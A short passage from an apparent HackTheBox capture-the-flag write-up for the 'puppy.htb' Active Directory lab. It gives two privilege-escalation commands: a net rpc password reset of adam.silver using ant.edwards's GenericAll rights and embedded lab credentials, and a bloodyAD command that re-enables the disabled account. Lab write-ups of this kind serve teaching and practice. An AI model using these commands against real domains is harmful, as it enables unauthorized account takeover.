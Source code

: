 ![BloodHound Groups](/assets/bloodpass.png)

## Privilege Escalation

1. Using `ant.edwards`'s GenericAll permissions, we change `adam.silver`'s password:
```bash
net rpc password 'adam.silver' 'Newpass123' -U 'puppy.htb/ant.edwards%Antman2025!' -S 'dc.puppy.htb'
```

2. Enable the disabled `adam.silver` account:
```bash
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p Antman2025! remove uac adam.silver -f ACCOUNTDISABLE
```
